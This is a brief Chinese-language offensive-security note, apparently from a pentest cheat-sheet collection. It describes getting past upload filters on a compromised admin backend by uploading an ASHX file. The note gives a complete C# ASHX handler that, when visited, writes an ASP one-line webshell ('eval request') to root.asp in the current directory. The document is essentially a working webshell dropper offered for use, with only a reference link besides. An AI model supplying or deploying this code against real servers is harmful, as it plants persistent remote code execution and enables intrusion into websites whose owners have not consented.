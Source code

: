 # 利用 ashx 生成一句话

在拿到后台之后，可能上传过滤比较严格，但是大多数管理员忘记了过滤 ashx 文件，这样就可以利用他来写一句话了。

将代码保存为 ashx 文件，访问他之后，就会在当前目录下生成 root.asp 了

```text
<%@ WebHandler Language="C#" class="Handler" %>

using System;
using System.Web;
using System.IO;
public class Handler : IHttpHandler {

public void ProcessRequest (HttpContext context) {
context.Response.ContentType = "text/plain";

StreamWriter file1= File.CreateText(context.Server.MapPath("root.asp"));
file1.Write("<%eval request("123")%>");
file1.Flush();
file1.Close();

}

public bool IsReusable {
get {
return false;
}
}

}
```

### 参考

* [http://rinige.com/index.php/archives/322/](http://rinige.com/index.php/archives/322/)


